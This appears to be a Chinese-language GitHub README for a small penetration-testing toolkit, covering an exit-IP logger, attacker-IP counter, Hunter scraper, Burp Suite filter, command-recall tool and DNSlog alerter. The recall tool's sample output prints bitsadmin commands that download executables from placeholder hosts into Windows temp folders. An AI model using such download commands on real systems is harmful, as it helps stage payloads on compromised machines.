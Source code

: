 # 渗透测试小工具集

## getip 

> 记录自己的出口IP

## attacktop

> 攻击者IP次数统计


- 在看golang，顺手就把之前的一些python改成golang了。
- 这工具有个好处就在于统计出现次数，虽然Excel其实可以做得很好，但好多时候我连Excel都难得打开。把这工具添加环境变量，直接一条命令解决。

## hunters

> 网上其实关于hunter的爬虫工具非常多，但不知道为啥总冥冥之中觉得不适合自己，所以造了这个轮子。
>
> 功能大体跟别的相似，并且只支持hunter，原因是fofa有ehole、360可以直接导出。我费那个劲集成在一起干啥，并且这些工具其实人家都做得挺不错。
>
> hunters计划后头写成图形化的，别问为啥，有些时候命令行总觉得缺了点啥（单纯个人觉得）

## WebFilter

> Burpsuite代理的时候可以使用这部分过滤非常多的垃圾网站（包含一部分互联网企业，如果挖掘src的需要自行研判了）以此减轻BurpSuite被动扫描的压力。

## Fs

>  年龄大了？记忆不好？就用fs
>
> 代码很简洁，需要自己简单修改下代码，没有很好做好适配。
>
> 把你常用且又爱忘记的一些命令放到use.log里，然后通过执行Linux命令来检索。
>
> 那么你只需要编译好这个工具以后直接fs admin，就可以检索admin相关的信息出来。

如下所示：

```bash
➜  ~ fs bitsadmin
-+====================================+-
   181  ➜  windows download[+]:bitsadmin /rawreturn /transfer getfile http://x.x.x.x:8888/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
   183  ➜  windows download[+]:bitsadmin /rawreturn /transfer down "http://127.0.0.1:8080/z.exe" c:\\z.exe
   259  ➜  bitsadmin /rawreturn /transfer getfile http://x.x.x.x/tomcat.exe c:\\users\\Manager\\AppData\\Local\\Temp
-+====================================+-
```

安排的明明白白。

懒人必备神器！



## ceyes

> ceyes dnslog自动告警
> 早之前一直使用低版本的BurpSuite1.7.33,奈何在低版本中logger插件动不动就卡死啥的,然后使用了高版本，心想这个问题就解决了，没想到....源于昨天一堆告警,而我在log4j里死活搜索不到。所以就有了这个小脚本。😁